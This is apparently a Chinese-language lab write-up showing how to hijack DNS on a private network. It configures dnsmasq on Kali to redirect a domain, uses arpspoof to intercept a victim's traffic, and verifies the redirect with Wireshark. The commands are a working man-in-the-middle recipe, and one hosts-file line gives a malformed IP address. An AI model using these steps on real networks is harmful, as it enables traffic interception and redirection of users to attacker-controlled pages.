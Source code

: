 ```yaml
---
title: DNS劫持实验
description: 本次实验旨在通过配置和使用 Kali Linux 中的 dnsmasq 服务，演示 DNS 劫持攻击的过程，并观察其对被攻击主机的影响
#image: /cover/cover2.png
category: 网络
tags:
 - DNS
#sticky: 999
published: 2025-04-02
---
```

# DNS劫持实验

**注意:** 实验中的ip依自己的实验环境为准,注意替换

​		本文中攻击者kali主机的IP为`192.168.183.137` 

​					被攻击者ubuntu主机的IP为`192.168.183.136` 

​					网关为`192.168.183.2`

## 1.配置dnsmasq服务

* 安装dnsmasq

  ```bash
  sudo apt update
  sudo apt install dnsmasq
  ```

  

![image-20250402153451250](image-20250402153451250.png)

* 配置dnsmasq

  ```bash
  sudo vim /etc/dnsmasq.conf
  ```

  在文件末尾添加配置:

  ```
  resolv-file=/etc/resolv.dnsmasq
  strict-order
  listen-address=192.168.183.137  # Kali IP
  address=/lanjinxin.com/192.168.183.137  # 将域名指向Kali自身
  server=8.8.8.8  # 上游DNS
  ```

  ![image-20250402163616376](image-20250402163616376.png)

* 本地启用dnsmasq解析

  ```bash
  sudo vim /etc/resolv.conf
  ```

  修改dns服务器为kali ip

  ![image-20250402164008315](image-20250402164008315.png)

* 在hosts文件中添加解析

  ```bash
  echo "192.168.183.137.10 lanjinxin.com" >> /etc/hosts
  ```

* 启动 dnsmasq 服务并设置开机自启动

  ```bash
  systemctl restart dnsmasq && systemctl enable dnsmasq
  ```

## 2.配置被攻击主机(Ubuntu24.04)

* 修改主机hosts文件

```bash
sudo vim /etc/resolv.conf
```

![image-20250402164347315](image-20250402164347315.png)

将nameserver 设置为kali ip `192.168.183.137`



##  3.使用 arpspoof 进行 ARP 欺骗

* 在 Kali Linux 上，使用 `arpspoof` 进行 ARP 欺骗，使得被攻击主机的流量通过攻击者主机：

  ```bash
  arpspoof -i eth0 -t [被攻击ip] -r [网关ip]
  ```

  ![image-20250402164940250](image-20250402164940250.png)

​	*如果不知道网关ip可以使用以下指令查询:*

```bash
route -n | grep 'UG' | awk '{print $2}'
```

## 4.观察被攻击主机访问被劫持域名时的重定向情况

* 在kali主机上使用wireshark验证dns劫持重定向

![image-20250402165508341](image-20250402165508341.png)

​	可见原向网关[192.168.183.2]查询dns的ubuntu主机[192.168.183.136]被kali劫持

* 在kali上搭建http服务器

  ```bash
  python3 -m http.server 80
  ```

  ![image-20250402165950014](image-20250402165950014.png)

  kali主机访问测试

  ![image-20250402170242885](image-20250402170242885.png)

* 在被攻击主机上访问域名`lanjinxin.com`

![image-20250402170154024](image-20250402170154024.png)

被攻击主机访问 `lanjinxin.com` 时显示的是 Kali Linux 上的 HTTP 服务器页面，说明 DNS 劫持成功。

* 在 Wireshark 中，可以观察到 DNS 请求和响应

![image-20250402170805657](image-20250402170805657.png)

可见ubuntu主机[192.168.183.136]通过dns查询`lanjinxin.com`的ip被kali主机[192.168.183.137]劫持并将自己的ip作为目标ip返回给被攻击主机
